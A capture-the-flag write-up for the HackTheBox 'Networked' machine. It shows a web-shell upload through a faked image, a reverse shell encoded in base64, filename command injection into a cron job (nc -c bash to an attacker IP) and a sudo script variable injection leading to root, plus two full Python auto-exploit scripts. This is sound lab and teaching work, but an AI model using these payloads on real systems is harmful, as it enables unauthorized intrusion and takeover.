

This box was an Easy box from HackTheBox. It's OS is Linux. The entry point is with a web vulnerability which allow us to have a file upload vulnerability. With that we can upload a malicious "php" file in a image upload. We get a first shell as apache, the privesc start with the guly user, which we upgrade with a cron. The root we get with a sudo command as root, when we can abuse variables setting.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.146
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


It seems to be a normal page

We run a gobuster to find some folders in this page

```sh
gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt
```


And we found an interesting one called backup


We download the file


It's the source code of the files we have in the server


Probably we'll need to find vulnerabilities in it and exploit them. So, let's read them to understand what is happening here

We can check all the files we have requests, which means that we can inject some kind of code or payload in it

```sh
grep -Ri '$_' *
```


### index.php

This file just show the initial message when we access it

index.php

```html
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

### uploads.php

This one is a little bit more interesting for us

```php
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

It perform a bunch of checks before upload the file in the server

The first one is to check the `check_file_type($_FILES["myFile"])` as true and the size to be less than 60000. We have an extension check in lines 22-29. getnameUpload returns the filename and extension, and then extension is checked with `array('.jpg', '.png', '.gif', '.jpeg')`.

Once these checks are passed, $name is created by replacing the . in the uploaders IP address with _ and adding . and the extension.

### lib.php

The only part which is interesting for us is the `getnameUpload`  and `check_file_type` functions, that is defined is this file

lib.php

```php
...
function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}
...
function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}
...
```

This mime type which the function check is relateted to the signatures from the file, to really get the kind of file it's being send to the server. We have [here](https://en.wikipedia.org/wiki/List_of_file_signatures) a good explanation and exemples about it.

# Trigger It

Now, with the proper understand about it, let's try to interact with the vulnerability and see what is happening.

We open the upload.php on the browser and see just an upload place


We try to upload a simple image, and get it in burp


And it's uploaded


Now we can see that in photos.php

And we see our image upladed on the gallery


Ok. Now let's try to send some payloads to it

We upload a malicious one


And get RCE in it


And a reverse shell


Now let's easily automate it.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_pwn_networked.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Python Auto Pwn Networked HackTheBox

import argparse
import requests
import sys
import os
from pwn import *
import base64
import urllib.parse
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Handler root which will be opened in thread
def Handler(lport):
    hand = listen(lport).wait_for_connection()
    hand.interactive()
    
# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    print("[+] Let's upload the malicious php file !! [+]")
    url = "http://%s/upload.php" %rhost
    data = b'\xff\xd8\xff\xee\r\n\r\n<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'myFile': ('0x4rt3mis.php.jpeg', data, "image/jpeg"),
        'submit' : (None,"go")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

# Trigger the reverse shell
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    new_lhost = re.sub("\.", "_", lhost)
    url = "http://"+ rhost + ":80/uploads/" + new_lhost + ".php.gif?"
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lport = args.localport
    lhost = args.localip

    '''Here we call the functions'''
    # Set Up the Handler
    thr = Thread(target=Handler,args=(int(lport),))
    thr.start()
    # Upload it
    maliciousUpload(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)

if __name__ == '__main__':
    main()
```

# apache --> Guly

First we need to get guly user in this box

We see on the home folder two interesting files


We see that we have a cron running every three minutes by this guly user, and it runs a file called **check_attack.php**, we get to good things in it. The first one is that we have the function **exec** in it, which means that it's running OS commands, the second is that we can controle the variables which are being passed to it, that is the **$path$value**. So let's see how we can explore it.

The variable $path is being seted on the top of the script. But the $value not. The script start reading the files in the upload folder, selecting ones which does not start with .. So if, we put a valid file name, followed by ; (semicolon) it'll execute it... So, let's try it out.

We create the malicious file, and wait the cron run it for us

```sh
touch ';nc -c bash 10.10.16.4 443
```


Ok, now let's get a root shell in this box.

# Guly --> root

The first things we could try is the `sudo -l` command, we see that we can run a command as root


Anything after a space in a value in a network script where the format is VARIABLE=value will be executed, so we can get rce in it with this in mind

So, we easly get root in this way


Now, let's automate everything.

# Auto Pwn Root

Here it's

root_pwn_networked.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Python Auto Pwn Root Networked HackTheBox

import argparse
import requests
import sys
import os
from pwn import *
import base64
import urllib.parse
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Handler for apache which will be opened in thread
def Handler(lport):
    hand = listen(lport).wait_for_connection()
    lport = lport + 1
    payload = "touch '/var/www/html/uploads/;nc -c bash %s %s'" %(lhost,lport)
    hand.send(b"%s" %payload.encode())
    hand.send(b"\n")
    hand.close()
    
def HandlerGulyRoot(lport):
    print("[+] Let's get root !! [+]")
    root = listen(lport).wait_for_connection()
    root.send(b"sudo /usr/local/sbin/changename.sh")
    root.send(b"\n")
    payload = 'a sh'.encode()
    root.sendlineafter(b'NAME', payload)
    root.sendlineafter(b'PROXY_METHOD', payload)
    root.sendlineafter(b'BROWSER_ONLY', payload)
    root.sendlineafter(b'BOOTPROTO', payload)
    root.interactive()
    
# Upload Malicious with magic hex changed
def maliciousUpload(rhost):
    print("[+] Let's upload the malicious php file !! [+]")
    url = "http://%s/upload.php" %rhost
    data = b'\xff\xd8\xff\xee\r\n\r\n<?php system($_REQUEST[\"cmd\"]); ?>'
    multipart_data = {
        'myFile': ('0x4rt3mis.php.jpeg', data, "image/jpeg"),
        'submit' : (None,"go")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)

# Trigger the reverse shell
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    new_lhost = re.sub("\.", "_", lhost)
    url = "http://"+ rhost + ":80/uploads/" + new_lhost + ".php.gif?"
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    global lhost
    rhost = args.target
    lport = args.localport
    lhost = args.localip

    '''Here we call the functions'''
    # Set Up the Handler for apache user
    thr = Thread(target=Handler,args=(int(lport),))
    thr.start()
    # Upload it
    maliciousUpload(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport)
    
    '''Now let's get the guly and root shell'''
    # Set Up the Handler for Guly and root user
    lport = int(lport) + 1
    thr = Thread(target=HandlerGulyRoot,args=(int(lport),))
    thr.start()
    
if __name__ == '__main__':
    main()
```

